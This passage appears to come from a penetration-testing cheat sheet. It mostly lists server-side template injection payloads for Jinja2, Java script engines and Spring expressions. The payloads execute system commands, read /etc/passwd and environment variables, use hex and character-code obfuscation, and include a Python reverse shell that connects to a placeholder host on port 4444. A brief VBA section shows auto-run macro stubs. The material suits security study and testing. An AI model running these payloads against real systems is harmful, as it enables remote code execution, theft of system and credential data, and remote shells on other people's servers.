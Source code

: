 ```c
{{request.__class__}}
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
${T(java.lang.System).getenv()}
${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

## Visual Basic for Application (VBA)

### Basic Structure

Navigate to: `View > Macros`

```c
Sub Document_Open()
  Macro
End Sub

Sub AutoOpen()
  Macro
End Sub

Sub Macro()
  MsgBox ("FOOBAR")
End Sub
```

